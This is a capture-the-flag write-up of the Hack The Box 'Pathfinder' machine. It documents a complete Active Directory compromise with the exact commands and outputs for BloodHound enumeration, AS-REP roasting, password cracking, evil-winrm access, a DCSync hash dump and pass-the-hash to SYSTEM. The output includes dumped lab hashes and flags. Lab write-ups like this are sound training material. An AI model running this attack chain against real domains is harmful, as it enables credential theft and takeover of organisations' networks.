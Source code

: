 # Hack The Box | Pathfinder
###### Writeup by. Jessi

## Enumeration
### Nmap Scan
Begin with an nmap scan on the target.  
**Target:** 10.10.10.30  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Pathfinder]
└─$ nmap -sC -sV 10.10.10.30           
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-10 14:27 EST
Nmap scan report for 10.10.10.30
Host is up (0.026s latency).
Not shown: 989 closed ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-01-11 03:36:11Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: PATHFINDER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 8h08m30s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-01-11T03:36:16
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.27 seconds
~~~
### Open Ports/Services
88/tcp - Kerberos  
389/tcp - LDAP  
5985/tcp - WinRM  
Target looks like a domain controller.  
### Active Directory
Using the credentials I obtained from a previously compromised box (sandra / Password1234!), I can attempt to enumerate Active Directory. I can achieve this with **BloodHound** - using the Python ingester first to get data.    
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Pathfinder]
└─$ bloodhound-python -d megacorp.local -u sandra -p Password1234! -gc pathfinder.megacorp.local -c all -ns 10.10.10.30
INFO: Found AD domain: megacorp.local
INFO: Connecting to LDAP server: Pathfinder.MEGACORP.LOCAL
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: Pathfinder.MEGACORP.LOCAL
INFO: Found 5 users
INFO: Connecting to GC LDAP server: pathfinder.megacorp.local
INFO: Found 51 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: Pathfinder.MEGACORP.LOCAL
INFO: Done in 00M 06S
~~~
### BloodHound
Now with the data I gathered with the python ingester, I can now start the Neo4j DB and login to bloodhound to access the data.  
![bloodhound login](screenshots/bh_login.png)  
I can drag and drop the .json files created earlier from the ingester. Once loaded, I can run a query from the top left menu bar. My selected query is "Find Principals with DCSync Rights".  
![bh query](screenshots/bh.png)  
Here I can see that svc_bes has GetChangesAll privs to the domain. Meaning the account has the ability to request replication data from the DC, gaining sensitive info such as user hashes.  
## Lateral Movement
### Kerberos
It's worth checking out if Kerberos pre-auth is disabled on this account, making it vulnerable to ASREPRoasting. Using Impacket's GetNPUsers I can check.  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Pathfinder]
└─$ GetNPUsers.py megacorp.local/svc_bes -request -no-pass -dc-ip 10.10.10.30
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc_bes
$krb5asrep$23$svc_bes@MEGACORP.LOCAL:765efc769decb678560b0994d9761d39$5c42a78adf24dcb876c4861fd17045c7d6cc4e1be19c17ab18c6ba396d381cf52242806db734168cc8fbbd7234bccb1cb7ed3096a46995e3fdd90448dcb342d7b8f92f534aeba85da1628649f7abadc8f5245d9a2af89f82b9f7e5c2b1d099839f1e7fee743442ee62959088ab56dcb598e5d2055a560d24463bbad8224542e6eb6d7927d96527008aa75166b2d48a7651c8867e303b8d6a801aaf1c18bcdc55eebf7456606e06fe3441b6d73e4d31538ac00de956af6a3db8267ee928fe43df7e1f1a11210b2298f68775cf89df6e2f27743aa9ad5ff366435c4dcebbfc84927a06c5602e4145e7e72dfc73068178a9
~~~
I obtain the TGT ticket for svc_bes, I'll save it as a file named hash.  
### John
Using John in conjunction with rockyou.txt, I can obtain the plaintext password from the hash.  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Pathfinder]
└─$ john hash -wordlist=/usr/share/wordlists/rockyou.txt                             1 ⨯
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Sheffield19      ($krb5asrep$23$svc_bes@MEGACORP.LOCAL)
1g 0:00:00:14 DONE (2021-01-10 15:39) 0.06993g/s 741469p/s 741469c/s 741469C/s Sherbear94..Sheepy04
Use the "--show" option to display all of the cracked passwords reliably
Session completed
~~~
Success.
#### Found Credentials
Username: svc_bes  
Password: Sheffield19  
### WinRM
Using the creds I just found, I can use evil-winrm to access the server. 
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Pathfinder]
└─$ evil-winrm -i 10.10.10.30 -u svc_bes -p Sheffield19

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_bes\Documents> 
~~~
From here I can immediately capture the user.txt flag in C:\Users\svc_bes\Desktop.  
## PrivEsc
### GetChangesAll
Now I can use Impacket's secretsdump.py to leverage the GetChangesAll permission and perform a DCSync attack to dump the NTLM hashes of all domain users.  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Pathfinder]
└─$ secretsdump.py -dc-ip 10.10.10.30 megacorp.local/svc_bes:Sheffield19@10.10.10.30
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:f9f700dbf7b492969aac5943dab22ff3:::
svc_bes:1104:aad3b435b51404eeaad3b435b51404ee:0d1ce37b8c9e5cf4dbd20f5b88d5baca:::
sandra:1105:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
PATHFINDER$:1000:aad3b435b51404eeaad3b435b51404ee:8020b53ed08719bdcbce82d03864e3b0:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:056bbaf3be0f9a291fe9d18d1e3fa9e6e4aff65ef2785c3fdc4f6472534d614f
Administrator:aes128-cts-hmac-sha1-96:5235da455da08703cc108293d2b3fa1b
Administrator:des-cbc-md5:f1c89e75a42cd0fb
krbtgt:aes256-cts-hmac-sha1-96:d6560366b08e11fa4a342ccd3fea07e69d852f927537430945d9a0ef78f7dd5d
krbtgt:aes128-cts-hmac-sha1-96:02abd84373491e3d4655e7210beb65ce
krbtgt:des-cbc-md5:d0f8d0c86ee9d997
svc_bes:aes256-cts-hmac-sha1-96:2712a119403ab640d89f5d0ee6ecafb449c21bc290ad7d46a0756d1009849238
svc_bes:aes128-cts-hmac-sha1-96:7d671ab13aa8f3dbd9f4d8e652928ca0
svc_bes:des-cbc-md5:1cc16e37ef8940b5
sandra:aes256-cts-hmac-sha1-96:2ddacc98eedadf24c2839fa3bac97432072cfac0fc432cfba9980408c929d810
sandra:aes128-cts-hmac-sha1-96:c399018a1369958d0f5b242e5eb72e44
sandra:des-cbc-md5:23988f7a9d679d37
PATHFINDER$:aes256-cts-hmac-sha1-96:646b9ba65e4a9e67b101d5560dc0edd65c21055d9fa1e1ead744673ce308e71a
PATHFINDER$:aes128-cts-hmac-sha1-96:157aec24982d4d84685b26d9d6a7f45b
PATHFINDER$:des-cbc-md5:0d37bfbcb5014f89
[*] Cleaning up... 
~~~
### psexec.py
With Impacket's psexec.py I am able to use the admin's NTLM hash in a PTH attack to gain elevated access to the system.  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Pathfinder]
└─$ psexec.py megacorp.local/administrator@10.10.10.30 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.30.....
[*] Found writable share ADMIN$
[*] Uploading file TruBYTvA.exe
[*] Opening SVCManager on 10.10.10.30.....
[*] Creating service GTsf on 10.10.10.30.....
[*] Starting service GTsf.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
~~~
We are now SYSTEM and can capture the root.txt flag in C:\Users\Administrator\Desktop  
##### user.txt
Located in C:\Users\svc_bes\Desktop.  
**b05fb166688a8603d970c6d033f637f1**  
##### root.txt
Located in C:\Users\Administrator\Desktop.  
**ee613b2d048303e5fd4ac6647d944645**  
